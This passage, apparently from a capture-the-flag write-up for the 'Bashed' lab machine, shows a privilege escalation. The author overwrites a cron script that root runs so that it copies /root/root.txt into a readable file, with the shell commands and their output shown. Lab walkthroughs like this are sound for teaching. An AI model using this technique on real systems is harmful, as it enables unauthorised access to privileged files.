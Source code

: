 Now we see that we can access the `scripts` directory (which we could not with the `www-data` user.) Let's take a peek.

```bash
scriptmanager@bashed:/$ cd scripts/
scriptmanager@bashed:/scripts$ ls
test.py  test.txt
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!
```

It seems like `test.py` is run, maybe by a cronjob or something. It currently just opens `test.txt` and writes a string to the file.

```bash
ll
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 ./
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ../
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Apr  2 05:56 test.txt
```

If we take a closer look at the permissions, we can see that `test.txt` is owned by `root`. This likely means that the `root` user is running `test.py`. Let's edit this file to see if we can just read the flag that way.

```bash
scriptmanager@bashed:/scripts$ vim test.py
The program 'vim' can be found in the following packages:
 * vim
 * vim-gnome
 * vim-tiny
 * vim-athena
 * vim-athena-py2
 * vim-gnome-py2
 * vim-gtk
 * vim-gtk-py2
 * vim-gtk3
 * vim-gtk3-py2
 * vim-nox
 * vim-nox-py2
Ask your administrator to install one of them
scriptmanager@bashed:/scripts$ which nano
/bin/nano
```

No `vim`? How uncultured. Anyways, open `nano` and change the file to be:

```python
with open("/root/root.txt", "r") as f:
        content = f.read()
with open(test.txt, "w+") as f2:
        f2.write(content)
```

And a minute later, we have our root proof.

```bash
scriptmanager@bashed:/scripts$ wc test.txt
 1  1 33 test.txt
```
